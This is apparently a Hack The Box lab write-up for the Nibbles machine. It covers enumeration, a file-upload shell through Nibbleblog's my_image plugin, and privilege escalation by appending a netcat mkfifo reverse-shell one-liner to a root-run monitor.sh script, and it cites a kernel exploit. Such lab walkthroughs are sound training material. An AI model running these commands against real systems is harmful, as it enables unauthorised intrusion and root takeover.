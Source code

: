 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**


**2. Dirbuster/ Gobuster**

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh

-------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1. Enumerating on port 80


View page source: **Control +U**
 
 
 
**Interesting Files**

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
**searchsploit nibbleblog**
 

http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



**Interactive shell**
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

user.txt

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 1.Privilege Escalation monitor.sh file

**sudo -l**




**unzip personal.zip**


**Notes:**
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.
**echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh**


monitor.sh file runs as administrator

**Notes:**
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
## 2.nel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

  
  
CVE ID 44298
Resource:  https://www.exploit-db.com/exploits/44298

  
 
